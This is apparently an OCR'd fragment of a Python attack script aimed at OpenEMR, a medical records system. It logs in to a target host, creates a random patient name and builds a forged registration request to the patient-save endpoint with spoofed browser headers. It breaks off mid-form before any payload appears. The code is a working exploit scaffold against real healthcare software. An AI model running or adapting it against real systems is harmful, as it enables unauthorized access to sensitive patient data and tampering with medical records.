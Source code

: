     # Authenticate:
    print('')
    print('[+] Authentication')
    auth = session.post(auth_url,headers=header, data=body)

    # Create random patient name:
    letters_up = string.ascii_uppercase
    letters_down = string.ascii_lowercase
    first_name = ''.join(random.choice(letters_up)) + ''.join(random.choice(letters_down) for i in range(10))
    surname = ''.join(random.choice(letters_up)) + ''.join(random.choice(letters_down) for i in range(7))
    print('')
    print('[+] Creating patient name randomly:')
    print('    [*] First Name: ' + first_name)
    print('    [*] Surname: ' + surname)

    # Registration preparation:
    url_reg = 'http://' + target_ip + ':' + target_port + openemr_path + 'interface/new/new_comprehensive_save.php'

    # Header (registration):
    header = {
        'Host': target_ip,
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Origin': 'http://' + target_ip,
        'Connection': 'close',
        'Referer': 'http://' + target_ip + ':' + target_port + openemr_path + 'interface/new/new.php',
        'Upgrade-Insecure-Requests': '1'
    }
    body = {
        'form_cb_1': '1',
        'form_title': 'Mr.',
        'form_fname': first_name,
        'form_mname': '',
        'form_lname': surname,
        'form_pubpid': '',
        'form_DOB': '2021-05-04',
        'form_sex': 'Male',
        'form_ss': '',
        'form_drivers_license': '',
        'form_status': '',
        'form_genericname1': '',
        'form_genericval1': '',
        'form_genericname2': '',
        'form_genericval2': '',
        'form_billing_note': '',
        'form_street': '',
        'form_city': '',
        'form_state': '',
        'form_postal_code': '',
        'form_county': '',
        'form_country_code': '',
        'form_mothersname': '',